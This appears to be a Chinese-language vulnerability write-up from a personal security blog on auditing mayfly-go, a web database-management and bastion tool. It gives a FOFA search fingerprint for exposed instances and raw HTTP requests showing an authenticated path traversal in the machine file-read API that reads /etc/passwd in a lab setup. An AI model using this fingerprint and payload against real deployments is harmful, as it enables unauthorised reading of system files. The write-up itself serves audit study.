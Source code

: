 ```yaml
---
title: "mayfly-go审计学习"
date: 2022-10-06T12:00:00+08:00
draft: false
author: "r0fus0d"
categories: ["技术"]

---
```


这个程序我以为是web数据库管理工具，结果还自带堡垒机的功能，后台功能点都使用了一遍，感觉确实不错，配合工具找了几个后台的洞，危害不大.



---

- https://github.com/may-fly/mayfly-go

---

## 指纹特征

```go
fofa: "mayfly, 后台管理"
```

---

## 后台目录遍历

在后台 运维-机器列表-机器操作-文件 处，点击查看文件

![](../../img/mayfly-go-case/Untitled.png)

正常的请求

```
GET http://10.211.55.3:8888/api/machines/10/files/40/read?fileId=40&path=%2Ftmp%2F&machineId=10 HTTP/1.1
Host: 10.211.55.3:8888
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjUwODAxMjcsImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.qf3LuOfc7-kZYYQVXZ6TSx3CGZLXKhoN_2kG1PUGhyI
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Referer: http://10.211.55.3:8888/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

修改path的值

```
GET /api/machines/10/files/42/read?fileId=42&machineId=10&path=%2Ftmp%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 10.211.55.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.9
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjUwODAxMjcsImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.qf3LuOfc7-kZYYQVXZ6TSx3CGZLXKhoN_2kG1PUGhyI
Referer: http://10.211.55.3:8888/
Accept-Encoding: gzip
```
